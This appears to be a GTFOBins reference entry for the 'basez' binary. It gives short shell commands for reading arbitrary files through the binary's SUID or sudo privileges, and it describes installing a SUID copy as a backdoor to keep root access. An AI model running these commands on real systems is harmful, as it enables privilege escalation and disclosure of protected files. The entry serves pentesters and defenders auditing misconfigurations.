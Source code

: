 # GTFOBin: basez

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

```
LFILE=file_to_read
basez "$LFILE" | basez --decode
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which basez) .

LFILE=file_to_read
./basez "$LFILE" | basez --decode
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
LFILE=file_to_read
sudo basez "$LFILE" | basez --decode
```